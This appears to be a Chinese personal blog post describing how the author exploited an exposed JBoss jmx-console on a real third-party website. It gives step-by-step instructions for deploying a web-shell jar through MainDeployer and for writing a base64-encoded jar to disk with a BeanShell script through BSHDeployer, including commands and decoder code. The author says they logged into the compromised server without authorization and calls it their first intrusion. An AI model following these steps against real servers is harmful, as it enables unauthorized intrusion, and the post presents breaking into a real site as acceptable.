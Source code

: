 ```yaml
---
layout: post 
title: "JBoss漏洞利用"
description: ""
category: security
tags: []
---
```


无意中访问j馆网站时发现这样的页面：![界面](/assets/images/jb1.jpg "界面")

很明显，网站配置存在问题，google一下，很容易就可以找到这个关于JBoss漏洞利用的[paper](securityxploded.com/JBoss%20Whitepaper.pdf)，以及一些衍生的[中文翻译](www.nxadmin.com/web/847.html)。好了，下面就照着paper实践就行了。

1.通过jmx-console部署恶意jar包
![MainDeployer](/assets/images/jb2.jpg)

找到MainDeployer中的deploy方法,在URL参数中填入jar包的位置。

![deploy](/assets/images/jb3.jpg)

>jar包制作：从[这里](www.vonloesch.de)下载`browser.jsp`，我是在linux命令行下进行打包：
>`$jar cf browser.jar browser.jsp`
>好了，把生成的jar包丢到某个外网可以直接访问的地方就可以了。

点击invoke，提示`operation...success`之类的就ok了。

![pwnwd](/assets/images/jb4.jpg)

ok,拿下了。

2.通过BSHDeployer部署BeanShell脚本

这是上面paper中给出的第二种方法，因为在一些配置中，防火墙不允许JBoss向外部发出连接请求。而这种方法就是直接将可以直接运行的脚本放到被攻击机器上。

2.1 编写攻击的jsp（我随便找了个简单的helloworld做测试）

>$ cat h123.jsp

<pre><code>
<%@ page language="java" contentType="text/html; charset=ISO-8859-1" pageEncoding="ISO-8859-1"%>
<!DOCTYPE html PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN" "http://www.w3.org/TR/html4/loose.dtd">
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=ISO-8859-1">
<title>Hello from JSP</title>
</head>
<body>

<% out.print("<h1>My Addition Application</h1>"); %>
<hr>
Welcome to the addition
Application<br>
Current Time is : <%=new java.util.Date()%>
</body>
</html>
</code></pre>

2.2 生成jar包
>$ jar cf h123.jar h123.jsp

2.3 利用base64对jar包进行加密
>$ base64 -w 0 h123.jar >>h123.jar.base64

2.4 编写解密脚本

<pre><code>
import java.io.FileOutputStream; import sun.misc.BASE64Decoder; String
val="2.3中加密后的jar文件内容"; BASE64Decoder decoder = new BASE64Decoder(); byte[]
byteval=decoder.decodeBuffer(val); FileOutputStream fs = new
FileOutputStream("D:\\h123.war"); fs,write(byteval); fs.close();
</code></pre>

2.5 找到BSHDeployer的createScriptDeployment

![BSHDeployer](/assets/images/jb5.png)

![createScriptDeployment](/assets/images/jb6.png)
	
	在p1处填入2.4中脚本的内容，p2处填入访问的节点如h123，点击invoke，提示`operation...success`之类就ok了。

2.6 看看效果

![效果](/assets/images/jb7.jpg)

ps:
登入这台windows
server2003后，我发现这台机器已经完全沦为了挖矿的机器，尤其是到了晚上:)

感谢j馆提供机器，充当了我第一次入侵的小白鼠，作为回报，已经将漏洞上报某云:)
